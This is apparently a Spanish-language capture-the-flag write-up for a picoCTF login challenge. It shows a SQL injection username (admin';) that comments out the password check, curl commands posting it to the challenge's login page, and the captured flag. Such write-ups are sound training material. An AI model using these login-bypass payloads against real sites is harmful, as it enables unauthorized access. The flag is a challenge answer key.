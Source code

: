 ## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/53751/` ([link](https://jupiter.challenges.picoctf.org/problem/53751/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:53751
## Solución 
```
username: admin';
password: hola
picoCTF{m0R3_SQL_plz_c34df170}
se inyecto el admin

En consola
┌──(kali㉿kali)-[~]
└─$ curl https://jupiter.challenges.picoctf.org/problem/53751/login.php -d "username=admin&password=admindebug=1"
<h1>Login failed.</h1>                                                                             
┌──(kali㉿kali)-[~]
└─$ curl https://jupiter.challenges.picoctf.org/problem/53751/login.php -d "username=admin';&password=admindebug=1"
<h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_c34df170}</p>                                                                             
┌──(kali㉿kali)-[~]

```

## Notas adicionales
Por medio de la injection sql podemos modificar el usuario, porque en este reto solo nos validaba la contraseña pero no el usuario.
## Referencias
